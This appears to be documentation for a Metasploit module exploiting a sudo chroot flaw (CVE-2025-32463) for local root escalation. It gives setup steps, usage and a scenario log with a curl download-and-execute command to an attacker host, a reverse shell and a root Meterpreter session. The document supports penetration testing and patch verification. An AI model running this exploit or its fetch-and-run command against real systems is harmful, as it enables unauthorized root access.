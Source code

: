 ## Vulnerable Application


Sudo before version 1.9.14-1.9.17p1 allows user to use `chroot` option, when executing command. The option is intended to run a command with user-selected root directory (if sudoers file allow it). Change in version 1.9.14 allows resolving paths via `chroot` using user-specified root directory when sudoers is still evaluating. This allows the attacker to trick Sudo into loading arbitrary shared object. As target shared object, Name Service Switch (NSS) operations are trigged before resolving sudoers, but after running `chroot` syscall. The module requires existing session and requires compiler on target machine (e.g. `gcc`). 

Installation of vulnerable sudo:

```
wget https://www.sudo.ws/dist/sudo-1.9.16p2.tar.gz && \
    tar xzf sudo-1.9.16p2.tar.gz && \
    cd sudo-1.9.16p2 && \
    ./configure --disable-gcrypt --prefix=/usr && make && make install
```

## Verification Steps


1. Start msfconsole
2. Get existing session to low-privileged user
3. Do: `use linux/local/sudo_chroot_cve_2025_32463`
4. Set target payload
5. Do: `set lhost [attacker IP address]`
6. Do: `set lport [attacker port]`
7. Do: `run`

## Options

### COMPILE

Option setting if compile target payload on the target.

### COMPILER

Option setting the compiler to compile target payload.


## Scenarios

```
msf6 exploit(linux/local/sudo_chroot_cve_2025_32463) > run verbose=true 
[*] Command to run on remote host: curl -so ./YoGpAgWbO http://192.168.168.128:8080/Q7JGOkCYlO14PhxIQeJRIQ;chmod +x ./YoGpAgWbO;./YoGpAgWbO&
[*] Fetch handler listening on 192.168.168.128:8080
[*] HTTP server started
[*] Adding resource /Q7JGOkCYlO14PhxIQeJRIQ
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Running version 1.9.16.2
[*] Writing '/tmp/Xw1XwkTPC' (117 bytes) ...
[*] Max line length is 65537
[*] Writing 117 bytes in 1 chunks of 420 bytes (octal-encoded), using printf
[*] Creating directory /tmp/ugJjJFSc9q
[*] /tmp/ugJjJFSc9q created
[*] Max line length is 65537
[*] Writing 216 bytes in 1 chunks of 763 bytes (octal-encoded), using printf
[*] Client 192.168.168.140 requested /Q7JGOkCYlO14PhxIQeJRIQ
[*] Sending payload to 192.168.168.140 (curl/8.14.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Launching exploit...
[*] Sending stage (3090404 bytes) to 192.168.168.140
[+] Deleted /tmp/Xw1XwkTPC
[+] Deleted /tmp/ugJjJFSc9q
[*] Meterpreter session 10 opened (192.168.168.128:4444 -> 192.168.168.140:41672) at 2025-07-10 16:12:58 +0200

meterpreter > sysinfo 
Computer     : kali.kali
OS           : Debian  (Linux 6.12.25-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```
